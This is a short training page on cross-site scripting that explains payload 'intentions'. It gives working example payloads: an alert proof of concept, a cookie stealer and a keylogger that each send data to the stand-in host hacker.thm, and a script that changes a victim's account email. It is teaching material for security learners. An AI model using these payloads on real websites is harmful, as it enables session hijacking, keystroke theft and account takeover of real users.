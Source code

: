 # Cross-Site Scripting

**What is a payload?**

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

Here are some examples of XSS intentions.

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.
